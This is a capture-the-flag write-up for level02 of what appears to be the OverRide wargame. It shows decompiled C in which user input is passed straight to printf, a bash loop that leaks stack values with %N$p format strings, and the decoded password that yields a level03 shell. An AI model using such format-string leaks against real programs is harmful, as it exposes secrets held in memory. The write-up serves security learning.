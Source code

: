 in the elf, the main get the next flag:

    int fd = fopen("/home/users/level03/.pass", "r");
    [...]
    char buf[41];
    int len = fread(buf, 1, 41, fd);

we also have a function that print what user input:

    char username[100];
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    [...]
    printf(username);
    puts(" does not have access!");

if we merge both idea we can use the printf (not protected) to print the data in the stack and those the password

this is a simple bash functions that display contents from the stack:

```bash
for i in {1..42};
    do echo $i %$i\$p | ./level02 | grep does;
done
```

when runing it we see differents data most between 22 and 26, it can be the password

    22 0x756e505234376848 does not have access!
    23 0x45414a3561733951 does not have access!
    24 0x377a7143574e6758 does not have access!
    25 0x354a35686e475873 does not have access!
    26 0x48336750664b394d does not have access!

let convert them from [hex to ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html) and [reverse](https://string-functions.com/reverse.aspx) those:

    0x756e505234376848 -> Hh74RPnu
    0x45414a3561733951 -> Q9sa5JAE
    0x377a7143574e6758 -> XgNWCqz7
    0x354a35686e475873 -> sXGnh5J5
    0x48336750664b394d -> M9KfPg3H

let's try by merging them:

    level02@OverRide:~$ ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: bg ultime
    --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    *****************************************
    Greetings, bg ultime!
    $ whoami
    level03

